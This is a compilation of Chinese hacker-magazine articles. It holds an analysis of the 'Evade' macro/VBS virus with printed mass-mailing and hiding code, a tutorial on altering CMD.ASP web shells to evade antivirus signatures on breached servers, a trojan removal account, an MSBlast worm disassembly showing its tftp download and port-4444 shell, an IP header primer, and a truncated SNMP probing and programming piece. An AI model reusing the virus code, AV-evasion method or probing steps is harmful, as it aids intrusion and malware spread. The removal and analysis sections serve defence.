    OutlookEmail.Recipients.Add ContactSwitch.AddressEntries(UserGroup)
    OutlookEmail.Subject = L6
    OutlookEmail.Body = "The file I am sending you is confidential as well as important..."
    OutlookEmail.Attachments.Add ActiveWorkbook.FullName
    OutlookEmail.Importance = 2
    OutlookEmail.DeleteAfterSubmit = True
    OutlookEmail.Send
    wsc.RegWrite EmailKey & ContactSwitch.AddressEntries(UserGroup), "File Sent"
End If
```

毒文件被写入到这个文件时是经过 ASCII 码转换的。要让这段代码写入到 `Winstart.vbs` 中能执行，这里就需要对其做恢复转换。这个函数如下所示：

```vb
Function CM(CN)
  For GC = 1 To Len(CN) Step 2
    ' 以两个字符为单位，因为一个字符转换成16进制ASCII码后是两个字符
    CM = CM & Chr("&h" & Mid(CN, GC, 2))
    ' 例如A的ASCII码为65，转为16进制为41，这里即将41转换成字符A
  Next
End Function
```

`CommandBars("Tools").Controls("Customize...").Enabled = 0`（屏蔽工具菜单的“自定义”）  
`CommandBars("View").Controls("Toolbars").Enabled = 0`（屏蔽视图菜单的“工具栏”）  
`CommandBars("Format").Controls("Object...").Enabled = 0`（屏蔽格式菜单的“对象”）

这样，病毒通过这些设置就可以防止用户通过对 Word 进行一些设置查看和删除宏病毒代码。

另外，其它部分和 `evade.gif` 文件功能基本上一样。该文件同样含有 Email 发送代码和恢复转换函数，并且原理一样，这里不再具体叙述。

#### B）`evade.jpg` 文件

这个文件开始是用于导入到 Word 通用模板的。该病毒同样修改了 Word 安全等级，并创建了 `AutoClose`、`AutoOpen`、`ViewVBCode`、`Evade` 过程。其中 `Evade` 过程中是病毒表现代码。前两个在 Word 关闭、打开文件时会自动执行，并且这两个过程均调用了 `Evade` 过程。

这里 `ViewVBCode` 过程中没有任何语句，这样当用户按 `ALT+F8` 后就不会调出宏编辑窗口，而是不做任何动作。这从某种程度上保护了病毒程序不被他人分析。

另外，和 `evade.gif` 文件一样，病毒也做了一些基本的隐藏措施，如下所示：

```vb
Application.DisplayStatusBar = 0      ' 不显示状态栏，以隐藏病毒运行情况
Application.ScreenUpdating = 0        ' 不让屏幕更新，提高执行速度
Application.EnableCancelKey = wdCancelDisabled
Application.DisplayAlerts = wdAlertsNone
CommandBars("Tools").Controls("Macro").Enabled = 0
CommandBars("Macro").Controls("Security...").Enabled = 0
CommandBars("Macro").Controls("Macros...").Enabled = 0
```

## 五、如何解除这种病毒

由于“叛逃者”病毒不仅感染了 vbs 脚本文件，覆盖了其它类型的文件，同时也感染了 Word、Excel，因此该病毒在解除过程中不得运行脚本文件，也不得对 Word、Excel 进行操作。

下面简要谈一下这个病毒的解除思路：

- 1. 按照上面所提到的部分删除或者改回被修改过的注册表键值。  
- 2. 删除上面提到的 9 个目录中的所有被感染文件和 `evade.gif`、`evade.jpg`、`Personal.xls`、`C:\Passwords.vbs`，还有 Windows 和系统目录下的 vbs/vbe 文件。  
- 3. 查找被感染的 vbe、vbs 文件，编辑并删除文件后面的病毒代码。  
- 4. 对 Excel 和 Word 进行解毒，并且还要杀除已被感染文档中的病毒。  
- 5. 如果有 MIRC，还需修改 `Script.ini` 文件，删除后来添加的几个命令行。  

上面有些步骤比较复杂，建议一般用户采用杀毒软件进行杀毒。

### 后记

“叛逃者”病毒并没有采用什么新颖的技术，特别是宏病毒部分已经是非常古老原始的技术了，但该病毒却完全不顾及用户宝贵数据和隐私，破坏性极大，这不得不让我们为此担忧。笔者认为，一个真正的好病毒，是会尽量避免造成破坏的，笔者衷心希望以后这种没有任何美感的低劣病毒不会反复出现。

## 让杀毒软件 PASS ASP 木马

相信近段时间大家都有这样的经历：入侵了一个服务器，得到上传的权限并已经将 `CMD.ASP` 上传至主页目录，但执行却失败。没错，因为目前的病毒防火墙已经把 `CMD.ASP` 等 ASP 程序当做病毒来查杀了。本文就是要教大家如何将 ASP 工具改造后，既不影响程序功能的正常使用，又能避开杀毒软件的查杀。

在动手之前我们先来认识一下什么是 ASP。Microsoft Active Server Pages 即我们所称的 ASP，其实是一套微软开发的服务器端脚本环境，ASP 内含于 IIS 3.0 和高于 IIS 3.0 的版本之中。通过 ASP，我们可结合 HTML 网页、ASP 指令和 ActiveX 元件建立动态、交互且高效的 Web 服务应用程序。ASP 程序其实是以扩展名为 `.asp` 的纯文本形式存在于 Web 服务器上的，你可以用任何文本编辑器打开它，ASP 程序中可包含纯文本、HTML 标记以及脚本命令。你只需将 ASP 程序放在 Web 服务器的虚拟目录下（该目录必须要有可执行权限），就可以通过 WWW 的方式访问 ASP 程序了。

那么查毒程序是怎么来识别病毒的呢？一般来说杀毒软件识别大部分的病毒都是采用特征码查毒方案，特征码查毒方案实质是采用了同一病毒或同类病毒的某一部分代码相同的原理。

## 毒龙

是说，如果病毒及其变种、变形病毒具有同一性，则可对这种同一性进行描述，并通过对程序体与描述结果（亦即特征码）进行比较而查找病毒。

由上面可以知道，杀毒软件肯定是对 CMD、ASP 这个文件提取过特征码。ASP 文件是文本文件，其内容也都是可以被我们识别的 ASCII 码。我想，从文本文件中能够提取到的特征码也无非是一些 ASCII 代码。这样就好办了！现在我们就来让杀毒软件告诉我们它所提取的特征代码内容。

先将 ASP 文件改扩展名为 TXT，再用记事本打开 CMD.TXT，删除第一行的内容，然后存盘（如果你熟悉 ASP 的语法，可先删掉一些不重要的语句）。然后再用杀毒软件查杀刚刚保存的文本。若报警，说明删除行未被当作病毒代码提取；继续删除并查杀，直到确定所有被提取的特征代码。

值得注意的是，当发现一条被杀毒软件提取为病毒代码的内容后，必须恢复该条内容才能继续删除下一条内容，否则会破坏文件特征代码完整性，导致杀毒软件不再报警。文件中的空格和回车都有 ASCII 码表示，当有一个空格或者回车单独占据一行时，也要把它当作一行内容来处理。

提取完所有特征代码后我们就要修改了！既然特征代码都是 ASCII 码，那么我们可以用一个 ASCII 码的特性来达到目的。ASCII 码表示 A 和 a 分别是 41 和 61，在 ASP 中大小写没有严格定义时，利用这一点就可把特征代码中任意字母大小写反转，杀毒软件将不会再报警。

（特别注意：光盘中收录有瑞星杀毒软件提取的 CMD.ASP 和海洋顶端 2003 中的 FTP.ASP 特征代码。）

## 彻底清除“爱情后门”


学校新闻中心的机子染上了病毒，于是老师叫我去杀毒。粗略检查了一下机器，看到有一个 IEXPLORE.EXE 进程（图1）。奇怪，我没有打开 IE 啊！


然后我在 DOS 下输入 `netstat -an` 命令，显示的端口中有一个 20168 端口引起了我的怀疑（图2）。我 telnet 了一下，竟然不用密码验证就得到了一个 shell（图3），还有一个 1092 端口，是需要密码验证的（图4）。


于是我找了一个查看进程打开相应端口的软件——fport，显示如图5，也可以用一个叫 DBPort 的软件（图6）。


lsass.exe 应该是一个系统进程，难道它是“传说中”的线程插入技术。网上查到这可能是“爱情后门”，于是找了个专杀工具，杀完之后走人（图7）。


没想到第二天老师又叫我去，说又有病毒了。这回手工查杀吧：先用金山毒霸查了一下没有发现；再开金山网镖，提示 25 端口被拦截；IEXPLORE.EXE 要访问网络（图9）；查看注册表启动项后仍反复出现。随后检查服务，发现两个可疑服务（图11、图12），禁止了它。


然后根据注册表和服务里的内容，找到相应文件，都是在 `C:\winnt\system32` 里，然后按日期排列目标，删除图13的 IEXPLORE.EXE、RAVMOND.EXE、WinDriver.exe、WinGate.exe、WinHelp.exe、winrpc.exe（都是 111470 字节）。然后打开 Task688 看一下，有一段引起了我的注意（图14），估计是那个家伙的邮箱帐号和密码，那个 “MjIyMjIy” 应该就是密码。


我试了一下，没用；用软件又把 “MjIyMjIy” 做 BASE64 解码转换了一下（光盘中有收录），是 “222222”（图15）。再试，还是没用，估计这个人把密码换了。文件还有……

见到 kernel66.dll、ily668.dll、reg678.dll、111.dll（都是 81920 字节）等可疑程序（图16），都删了。其中删除 111.dll 时，提示文件正在使用，估计是他把线程插入 lsass.exe 里了。于是我用 **kill -f lsass.exe** 强制关闭进程（注：KILL.exe 光盘中有收录，用的时候在 CMD 下调用执行），出现 60 秒后自动重启的对话框（这时不能截图，我也不知道为什么），然后在这 60 秒内删除 111.dll 文件，这个应该没问题吧。

后来才发现，只要重启后，就可直接删掉 111.dll 文件。OK！大功告成，正得意时，无意中运行了一个 txt 文件，出现图17所示的窗口，原来它还把 txt 文件的关联改了。


进入注册表，到 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 把默认的键值改成 “notepad.exe %1”（图18），再看看 exe 文件关联（图19）。没问题，到此为止，整个世界清净了！


后来又看了一下 `C:\winnt\system32` 目录中的文件，发现有几个批处理文件，文件名我忘了。反正是利用 139 端口探测简单密码用的，然后复制自己到对方的机器（以下内容是一些补充，文件名是随机选取的）。病毒体内的文件名有以下几种可能：the hardcore game--.pif、Shakira.zip.exe、dreamweaver MX (crack).exe、StarWars2-- CloneAttack im.scr、DSL Modem Uncapper.rar.exe、joke.pif、I am For u.doc.exe、s3msong.MP3.pif 等。

病毒还增加一个邮件地址搜索线程，通过注册表 `Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders` 得到系统目录，并搜索 `*.ht*` 中的 E-mail 地址，用以进行邮件传播。邮件标题随机从病毒体内选出：Hi Dear、Great、Last Update、Patrick Ewing will give Knick fans something to cheer about、Adult content!!! Use with parental advisory..、Friday night……当病毒被运行后，每隔一段时间发送一次通知邮件给位于 163.com 的一个信箱（这里是 hello_zyx@163.com）。邮件的标题是 xyz123xyz123，内容为中毒系统的 IP 地址，以便利用病毒的后门进行控制。

本文的目的不是为了记住怎么手工清除病毒，而是学习手工清除病毒的方法。

专杀工具不是针对每个病毒都有的，而且在病毒刚出来时是没有专杀工具的。所以学会手工杀毒也是迈向电脑高手的一小步，让你了解更多电脑启动方面的知识。

## RPC MSBlast 蠕虫分析


### 一、漏洞说明

RPC（Remote Procedure Call）缓冲区漏洞的产生原因大致如下：  
通用接口错误调用：

```cpp
hr = CoGetInstanceFromFile(pServerInfo, NULL, 0,
CLSCTX_REMOTE_SERVER, STGM_READWRITE, ...,
"...doc", 1, &qi)
```

在第 5 个参数会发生溢出。该漏洞由 LSD 发现，微软发布补丁（MS03-026）。在漏洞被公开并出现利用代码后，MSBlast 很快开始大规模传播，导致大量用户受影响。

```bash
upx -d msblast.exe
IOException: file is write-protected -- skipped
...（解压缩输出）
```

如果想继续分析该样本，可再用 PEID 查看，结果显示病毒疑似采用 LCC 编译，如下图所示。


### 二、蠕虫分析

#### 1. 感染步骤

首先，A 机感染后会随机生成地址扫描，并向被扫描主机 B 发送攻击代码。若溢出成功，将开启 B 机 TCP（4444）端口并下发 TFTP 命令（`tftp -i %s GET %s`），把 A 机病毒文件复制到 B 机并执行。随后 B 机也会继续扫描传播。

若溢出失败，常见原因是系统返回地址不通用。被攻击主机的 RPC 服务可能崩溃，出现文件复制/粘贴异常、COM 组件异常等，系统可能重启；重启后可恢复，但仍可能再次被攻击。

#### 2. 病毒分析

##### （1）脱壳

样本可先用 PEID 查看，显示采用 UPX 压缩。随后可用 `UPX -D` 参数脱壳。样本为只读文件，首次脱壳会失败。

```bash
H:\work\RPC>upx -d msblast.exe
UPX -- 可执行文件压缩器
...（版本信息）...
文件大小    比率    格式    文件名
```

##### （2）反汇编分析

病毒样本大小约 6.176k，脱壳后约 11.296k。进行反汇编后可见其在系统启动时加载，并在注册表写入启动项：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

键值名类似 `windows auto update`，指向 `%SystemRoot%\system32\msblast.exe`。

```asm
00401262 50                push eax
00401263 6A00              push 00000000
00401265 683F000F00        push 000F003F
...
Possible StringData Ref ->
"SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
...
Reference To: ADVAPI32.RegCreateKeyExA
```

```asm
* Possible StringData Ref from Data Obj -> "msblast.exe"
00401281 683C404000    push 0040403C
00401286 6A01          push 00000001
00401288 6A00          push 00000000

* Possible StringData Ref from Data Obj -> "windows auto update"
0040128A 6849484000    push 00404849
0040128F FF75F8        push [ebp-08]

* Reference To: ADVAPI32.RegSetValueExA, Ord:0000h
00401292 E801110000    Call 00402398
00401297 FF75F8        push [ebp-08]

* Reference To: ADVAPI32.RegCloseKey, Ord:0000h
```

② 创建互斥体，防止重复感染。

```asm
* Possible StringData Ref from Data Obj -> "BILLY"
0040129F 6843484000    push 00404843
004012A4 6A01          push 00000001
004012A6 6A00          push 00000000

* Reference To: KERNEL32.CreateMutexA, Ord:0000h
004012A8 E8A3100000    Call 00402350
```

③ 在本地开启 69 端口（TFTP UDP/69），该端口用来提供 TFTP 服务传送文件。

```asm
004015B0 E8430E0000    Call 004023F8
004015B5 83C40C        add esp, 0000000C
004015B8 66C785D8FDFFFF0200  mov word ptr [ebp+FFFFFDD8],0002
004015C1 6A45          push 00000045   ; 入栈 69 端口

* Reference To: WS2_32.htons, Ord:0000h
004015C3 E800B00000    Call 00402158
004015C8 89C2          mov edx, eax
...
```

```asm
* Reference To: WS2_32.bind, Ord:0000h
004015C7 E8F00B0000    Call 004021DC
; 绑定 69 端口
```

④ 溢出目标成功后，开启对方的 TCP/4444 端口并绑定 cmd.exe，发送 tftp 执行下载蠕虫主文件：

```asm
* Reference To: CRTDLL.memset, Ord:0000h
00401BD2 E821080000    Call 004023F8
00401BD7 83C40C        add esp, 0000000C
00401BE3 685C110000    push 0000115C
; 转换为10进制为4444

* Reference To: WS2_32.htons, Ord:0000h
00401BE8 E86B050000    Call 00402158
00401BED 89C7          mov edi, eax
...

* Reference To: WS2_32.inet_addr, Ord:0000h
; 用 CMD 绑定目标的 TCP4444 端口

* Reference To: WS2_32.connect, Ord:0000h
* Reference To: KERNEL32.CreateThread, Ord:0000h
; 创建新的线程
```

```asm
00401CD1 E89E060000    Call 00402374
00401CD6 8985C0EDFFFF  mov dword ptr [ebp+FFFFEDC0], eax
00401CDC 6A50          push 00000050
* Reference To: KERNEL32.Sleep, Ord:0000h

* Possible StringData Ref from Data Obj -> "msblast.exe"
; 将 msblast.exe 作为参数入栈
00401CE3 683C404000    push 0040403C
00401CE8 6800304000    push 00403000

* Possible StringData Ref from Data Obj -> "tftp -i %s GET %s"
; 作为参数入栈
00401CED 680C484000    push 0040480C
00401CF2 8D85FCEDFFFF  lea eax, [ebp+FFFFEDFC]
00401CF8 50            push eax

* Reference To: CRTDLL.sprintf, Ord:0000h
* Reference To: WS2_32.send, Ord:0000h
; 发送到目标主机，让它到本机下载参数指定的 msblast.exe
```

```asm
00401D21 E87A040000    call 004021A0
00401D26 83F801        cmp eax, 00000001
00401D29 0F8CBC000000  jl 00401DEB
00401D2F 68E8030000    push 000003E8
```

⑤ 在目标上执行 msblast.exe，代码如下：

```asm
* Possible StringData Ref from Data Obj -> "msblast.exe"
00401D56 683C404000    push 0040403C
* Possible StringData Ref from Data Obj -> "start %s"
00401D5B 6802484000    push 00404802
00401D60 8D85FCEDFFFF  lea eax, dword ptr [ebp+FFFFEDFC]
00401D66 50            push eax
* Reference To: CRTDLL.sprintf, Ord:0000h
```

到这里，我们就看到了病毒的整个感染执行过程。同样，病毒还有时间判断，在满足条件后进行 DDoS 攻击，目标是：windowsupdate.com。

### 三、解决之道

- 1. 要彻底解决该漏洞，需要打微软补丁。  
  - （1）微软针对缺陷的补丁：  
    http://www.microsoft.com/technet/treeview/?url=/technet/security/bulletin/MS03-026.asp
  - （2）针对英文用户：  
    - WinNT: http://microsoft.com/downloads/details.aspx?...displaylang=en  
    - Win2000: http://microsoft.com/downloads/details.aspx?...  
    - WinXP: http://microsoft.com/downloads/details.aspx?...displaylang=en  
    - Win2003: http://microsoft.com/downloads/details.aspx?...displaylang=en
  - （3）针对中文用户：  
    - WinNT4.0: http://www.ccert.edu.cn/pub/patch/MS/NT4_CN/CHS0823980.EXE  
    - Win2000: http://www.ccert.edu.cn/pub/patch/MS/win2000/Windows2000-KB823980-x86-CHS.exe  
    - WinXP: http://www.ccert.edu.cn/pub/patch/MS/xp/WindowsXP-KB823980-x86-CHS.exe  
    - Win2003: http://www.ccert.edu.cn/pub/patch/MS/WindowsServer2003-KB823980-x86-CHS.exe

- 2. 同时，我们可采用各种杀毒软件、专杀工具来清除端点，但不管怎么做，及时升级是必要的，否则可能重新感染。

- 如果你具有一定的编程功底，可自己尝试编写清除程序：  
  - （1）清除程序（也适合手工清除）  
    - 利用相关工具（如任务管理器）结束进程名为“msblast.exe”的进程；  
    - 删除系统目录下病毒文件；  
    - 删除注册表中 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 项下的 “windows auto update” 键值。  
  - （2）编写疫苗程序  
    因为病毒创建互斥体来判断是否感染，所以如果我们利用程序来创建一个互斥体标记，那么病毒溢出后也不会感染我们的机器。通过上面的分析，我们可看到互斥体的名字是“BILLY”。

当然，如果配合防火墙或 Windows 2000 的 IP 策略关闭 135 端口，那么效果就更好了。

在蠕虫肆虐时，引发了很多问题。我们要不断提高自己的知识水平和预防可能的危害。不过比较有趣的是，Windows XP/2003 以前被微软封堵的序列号（即不能在线升级的那批），现在居然能升级了。看来微软也有弥补自己失误的实际行动。这个蠕虫还有一些变种，其中一个名字是 Penis32.exe，其实它只是在本病毒的基础上把一些代码中的 msblast.exe 名称改成 Penis32.exe 而已。

> （注：光盘的压缩包中提供有反汇编的全部代码和导入表）

## 揭开 IP 包的神秘面纱

> LOOK 注意  
> 数据包之前的数字就是各部件的长度（bit）。如果你是个细心的人，就会发现每一列的总长度都是 32bit（4byte）。

你也许会问：“什么是 IP？”IP 就是 INTERNET PROTOCOL 的简写，它工作于网络层（具体请参考《黑客 X 档案》中的《TCP/IP 与 OSI》），网络没有了它可不行啊！很多人可能听过这个名字，但不知道它究竟“长”得怎样！今天，小二我就带你揭开 IP 包的面纱，让你对它有个全面的认识。如果你有兴趣请跟着我 step by step，好吗？Ready，Go！

首先，必须安装一个嗅探器，我们选择 eEye.com 公司新出的网络通信分析器——IRIS（如果你不懂的话就要赶紧看看第 7 期的《黑客 X 档案》里面的黑客研究院小手册——《一嗅天下》了，如果你还没有这个软件，可以到 http://www.5lfaq.com 下载），接着运行 IRIS 准备抓包，运行命令提示符，在里面敲入如下命令：PING XXX.XXX.XXX.XXX，回车。此时，回到 IRIS 界面按下开始按钮，看到数据包了吧，现在就可以停止了。然后在 IRIS 界面的右上方选中一个数据包，打开 Packet Decoder（数据包解码）中的 IPV4 header，你看到的将是如图 1 所示的界面：

那么它的各个部件表示什么意思呢？请听我一一道来！

Version（版本）：表示的是 IP 规格版本，目前的 IP 规格多为 4。图 1 中的 1（version=4）的意思就是 IP 规格版本为 4。

Internet Header Length（标头长度）：我们从 IP 封包规格中看到前面的 6 列为 Header，如果 Options 和 Paddings 没有设定的话，也就是 5 列的长度（如图 1 的 2 Header Length=5）。我们又知道每列有 32bit 也就是 4byte，那么 5 列就是 20bytes 了（如图 1 的 2）。让我们回到 IRIS 界面右下方的数据包编辑区看看，如图 2 所示：

```
0000 00 E0 4C 36 10 46 52 5A AB 32 44 B9 06 00 45 00
0010 00 3C 00 6A 00 00 80 01 74 05 AC 13 37 14 AC 13
0020 37 17 08 00 3E 5C 03 00 00 00 61 62 63 64 65 66
0030 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76
0040 77 61 62 63 64 65 66 67 68 69
```

看到 45 了吗？前面的“4”就是版本号数，而后面的“5”则是标头长度。

Type of Service（服务类型），指的是 IP 封包在传送过程中要求的服务类型，由 8 个 bit 组成，其中每个 bit 的组合分别代表不同的意思，如图 3 所示：

- `000....` Routine：设定 IP 顺序，预设为 0，数值越高越优先。
- `...0...` Delay（延迟要求）：0 为正常值，1 为低要求。
- `....0..` Throughput（通讯量）：0 为正常值，1 为高要求。
- `.....0.` Reliability（可靠性）：0 为正常值，1 为高要求。
- `......00` Not used（未使用）。

图 1 的 3 Type of service=00 表示全部设置为正常值。

Total Length（封包总长），它的单位一般为字节（byte），此数值为“标头”和“数据”的总和。图 3 的十六进位数据“003c”，把它换成十进位就是图 1 的 4（60bytes）。

Identification（识别码），每一个 IP 封包都有一个 16bit 的唯一识别码。由于网络带宽的要求，应用程序产生的数据通过网络传送时都会被拆散成封包形式发送，它将为封包的重组提供依据。从图 2 中，我们可以看到此封包的 ID 为 006A（将它换成十进制就是图 1 中的 106）。

Flag（标记），这是当封包在传输过程中进行最佳组合时使用的 3 个 bit 的识别记号。

- `0.......` unused = 0
- `.0......` Don't Fragment = 0
- `..0.....` More Fragments = 0

`0.......`，当此值为 0 的时候表示目前未被使用。  
`.0......`，当此值为 0 的时候表示封包可以被分割，如果为 1 则不能被分割。  
`..0.....`，当上一个值为 1 时，此值为 0 表示该封包是最后一个封包，如果为 1 则表示其后还有被分割的封包。  
图 2 的“0000”表示这个封包目前未被使用。

Fragment offset（分割定位），当封包被切开之后，由于网络情况或其它因素影响其抵达顺序，这就会使这些封包和当初切割顺序不一致，所以当封包被切割的时候就会被加上一个定位标号，所以在重组的时候就能对号入座了。（因为我们刚才抓取到的封包没有被分割，所以图 1 的 6 Fragment offset=0）。

Time To Live（延续时间），指一个封包被赋予 TTL 值（一般以秒为单位）之后就会进行记时，如果封包在到达 TTL 值的时候还没被处理的话就会被丢弃。TTL 值经过一个跳站或被一个 Router 处理之后就会被减低一个数值。

Protocol（协议），指的是该封包所使用的网络协议类型，图 1 的 8 Protocol=1 表示所用的协议为 ICMP 协议。

Header Checksum（标头检验值），这个数值主要是用来检错用的，用于确保封包被正确收到。

Source IP Address（源 IP 地址），指发送端的 IP 地址。

Destination IP Address（目的 IP 地址），也就是接收端的 IP 地址。

Option & Padding，这两个选项很少使用，只有某些特殊的封包才需要特定的控制才会利用到。

上面的各个部件就组成了 IP 封包的格式：

version(4) internet header length(4) Type of Service(8) Total Length(16)  
identification(16) Flags(3) Fragment Offset(13)  
Time To Live(8) Protocol(8) Header checksum(16)  
Source IP Address(32)  
Destination IP Address(32)  
Options&Padding(0/24)  
Data ………………

## 简单网络管理协议 SNMP 及其编程基本框架与实现介绍

> 理解和认识实现网络管理的前提是要先了解网络管理协议。

### 一、SNMP 标准组成

简单网络管理协议（SNMP, Simple Network Management Protocol）是由互联网工程任务组（IETF）定义的一套网络管理协议。利用 SNMP，一个管理工作站可以远程管理所有支持该机制的网络设备，包括监视网络状态、修改网络设备配置、接收网络事件警告等。

> **注意**  
> SNMP 标准主要由三部分组成：简单网络管理协议（SNMP）、管理信息结构（SMI）、管理信息库（MIB）。如今 SNMP 已经从 SNMPv1 发展成 SNMPv2，并不断修订和增加新的标准。

SMI 协议规定了定义和标识 MIB 变量的一组原则。

管理信息库（MIB, Management Information Base）是一个存放被管理网络元素信息的数据库。被管理网元信息组成有层次的集合，在 MIB 层次结构中，一个对象标识符唯一标识了被管理对象。网络管理系统（NMS）通过代理读取或设置 MIB 中的变量值，从而实现对网络资源的监视和控制。MIB 的层次结构可以被描述成一棵根命名树，树的级别被不同的组织所划分。

一个对象的标识符是由从根出发到对象所在节点的途中所经过的一个数字标号序列组成。叶子节点可以被 SNMP 存取，非叶子节点则不能被存取。

### 三、SNMP 的网络管理模型

> **注意**  
> SNMP 的网络管理模型由三个关键元素组成：网管、被管理的设备（网元）……

- 网元代理（agent）
- 网络管理系统（NMS，network-management system—NMS）

网元是管理网中包括一个 SNMP 代理的网络节点，它可以是路由器、接入服务器、交换机、网桥、hub、主机、打印机等网络设备。网元负责收集和存储管理信息，使其为 NMS 可用。代理是位于网元中的一个网络管理软件模块，它管理本地的网络管理信息，并把信息转换为 SNMP 兼容的形式，在 NMS 发出请求时做出响应。NMS 监控和管理网元，提供网络管理所需的处理和存储资源。这些 NMS 实际上是指网络管理员与网络管理系统的接口。一个系统可以只当作 NMS 或代理者，也可以同时完成这两者的功能。一个管理网中可以存在多个 NMS，SNMP 管理网的结构示意如下图 2 所示。

### SNMP 工作流程

SNMP 采用了 Client/Server 模型的特殊形式：代理/管理站模型。对网络的管理与维护是通过管理工作站与 SNMP 代理间的交互工作完成的。每个 SNMP 代理负责回答 SNMP 管理工作站关于 MIB 定义信息的各种查询。SNMP 代理和管理站通过 SNMP 协议中的标准消息进行通信，每个消息都是一个单独的数据报。SNMP 使用 UDP 作为传输协议，进行无连接操作。SNMP 消息报文包含两个部分：SNMP 报头和协议数据单元 PDU，数据报结构如图 3 所示。

版本识别符（version identifier）：确保 SNMP 代理使用相同的协议，每个 SNMP 代理都直接抛弃与自己协议版本不同的数据报。

团体名（Community Name）：用于 SNMP 代理对 SNMP 管理站进行认证。如果网络配置为要求验证时，SNMP 代理将对团体名和管理站的 IP 地址进行认证；如果失败，SNMP 代理将向管理站发送一个认证失败的 Trap 消息。

协议数据单元（PDU）：其中 PDU 指明了 SNMP 的消息类型及其相关参数。所以不同消息类型或 SNMPv1 与 SNMPv2 之间，PDU 的格式是不同的。

### 四、SNMP 的五种消息类型

> 注意：SNMP 中定义了五种消息类型：Get-request、Get-Response、Get-Next-Request、Set-Request、Trap。

- **Get-Request、Get-Next-Request 与 Get-Response**：SNMP 管理站用 Get-Request 消息从带有 SNMP 代理的网络设备中检索信息，而 SNMP 代理则用 Get-Response 消息响应。Get-Next-Request 用于和 Get-Request 组合起来遍历某一 MIB 结点的子结点。
- **Set-Request**：SNMP 管理站用 Set-Request 可以对网络设备进行远程配置（包括设备名、设备属性、删除设备或使某一个设备属性有效/无效等）。因为 SNMP 不进行任何授权，所以许多厂商在他们的产品中不实现 Set 操作，而仅仅把 SNMP 用于监视设备。
- **Trap**：SNMP 代理使用 Trap 向 SNMP 管理站发送非请求消息，一般用于描述某一事件的发生。

### 五、Win2000 的简单网络管理协议（SNMP）

> 注意：安装 SNMP：“控制面板”→“添加/删除程序”→“添加/删除 Windows 组件”→“管理和监视工具”→“简单网络管理协议”。

Win2000 对应 SNMP 网络管理模型的三个部件：

Windows 运行两个服务：SNMP Service 和 SNMP Trap Service，提供 SNMP 代理服务，并进行 SNMP 安全和认证的管理。开启端口 UDP 161（snmp）、UDP 162（snmptrap）。具体支持文件有 DHCPMIB.DLL、EVNTAGNT.DLL、HOSTMIB.DLL、LMMIB2.DLL、MGMTAPI.DLL、MIB.BIN、SNMP.EXE、SNMPAPI.DLL、SNMPSNAP.DLL、SNMPTRAP.EXE、WINSMIB.DLL、WSNMP32.DLL。

MIB 管理信息库文件：DHCP.MIB、HOSTMIB.MIB、LMMIB2.MIB、MIB_II.MIB、WINS.MIB。其中 MIB_II.MIB 是一个基于 TCP/IP 协议网络上的管理信息库，也是 Internet 网络树的主要查询对象。

- SNMP 管理工具：SNMPUTIL.EXE、EVNTCMD.EXE、EVNTWIN.EXE、MIBCC.EXE。其中 SNMPUTIL.EXE 是一个简易的控制台管理程序（试了一下，不能在 Win98 下正确查询）。

> **注意**：SNMP 的安装管理要在“管理工具→服务”里把 SNMP Service 设为启动，并结合“安全”设置。  
> **注意**：以上只是简单罗列了三个文件，具体技术程序文件参考 MSDN：`http://msdn.microsoft.com/library/default.asp?url=/library/en-us/snmp/snmp/about_snmp.asp`

### 五、对 Win2000 基于 SNMP 的信息刺探的可行性与实现

首先从前面的原理和图 4 中可知，对 SNMP 代理的访问取决于团体名称（community string）和允许管理主机的限制，然而 SNMP 代理服务的系统默认配置是团体名称“Public”和接受任何主机的 SNMP 数据包，这也是很多网管配置服务器常犯的错误。

其次，MIB-II 库定义的公开性和微软也提供了 SNMP 软件编程的接口。

所以现在我们有了进行刺探的所有前提，要做的就是如何通过 SNMP 工具（如 snmputil.exe）去获得 MIB 中指定对象的信息。具体刺探步骤可参考下面网址：`http://www.patching.net/abu/gongfang/hacking/snmpscan/index.html`

当然，知道了如何使用现成工具，接下去就是让很多人知道如何通过编程去实现自己的 SNMP 管理工具。

### 七、基于微软的 SNMP API 的编程

SNMP 并非微软独有，很多公司（如 HP、IBM）也都有自己的 SNMP 编程接口，还有现成的控件，而且支持的语言也不尽相同，Java、C/C++、Perl、PHP 都有 SNMP 的函数，所以 SNMP 的管理也显得方便。但讲到微软的东西，当然也就用它的东西比较好，况且也有使用 Windows API 的经验，用起来也相当方便。另外语言选用 Visual C++ 6.0，这方面 VC 得心应手。

所需支持文件：WSNMP32.LIB、WINSNMP.H、SNMPAPI.DLL、WSNMP32.DLL。前两个文件 VC6 安装好以后就有，后两个文件 Win2k 下需要安装了 SNMP 服务后才有，Win98 下只有自带了。当然两者版本可能会不同。我使用的环境是 Win98 + VC6 专业版（Win2K + VC6 专业版当然也行）。

下面我就以实现 Get-Request、Get-Response 消息为例，实现简易的 NMS 功能，取得 MIB 中 4 个叶子对象的信息。对象名称分别是 sysDescr、sysObjectID、sysUpTime、sysName（位于 iso.org.dod.internet.mgmt.mib2.system），对象标识符（OID）分别是“1.3.6.1.2.1.1.1.0”、“1.3.6.1.2.1.1.2.0”、“1.3.6.1.2.1.1.3.0”、“1.3.6.1.2.1.1.5.0”。

程序中将用到的几个主要的数据结构之间的关系与定义描述：smiOID 用于保存 OID 号；

```c
typedef struct {
  smiUINT32 len;
  smiLPUINT32 ptr;
} smiOID, *smiLPOID;
```

smiVALUE，与一个 smiOID 对应的值：

```c
typedef struct {
  smiUINT32 syntax; // 对应 smiOID 的值类型
  union {
    smiINT sNumber;
    smiUINT32 uNumber;
    smiCNTR64 hNumber;
    smiOCTETS string;
    smiOID oid;
    smiBYTE empty;
  } value;
} smiVALUE, *smiLPVALUE;

// VB 块
typedef struct {
  smiOID name;
  smiVALUE value;
} VB;

// VBL
typedef struct {
  VB[]; // 多个 VB 块
} VBL;

// PDU
typedef struct {
  smiINT PDU_type; // GET-Request 等
  smiINT32 request_id;
  smiINT error_status;
  smiINT error_index;
  HSNMP_VBL varbindlist;
} PDU;
```

一个完整的 SNMP 请求：

```c
typedef struct {
  HSNMP_ENTITY srcEntity; // 源 IP 地址
  HSNMP_ENTITY dstEntity; // 目的 IP 地址
  HSNMP_CONTEXT context;  // 团体名称（如 public）
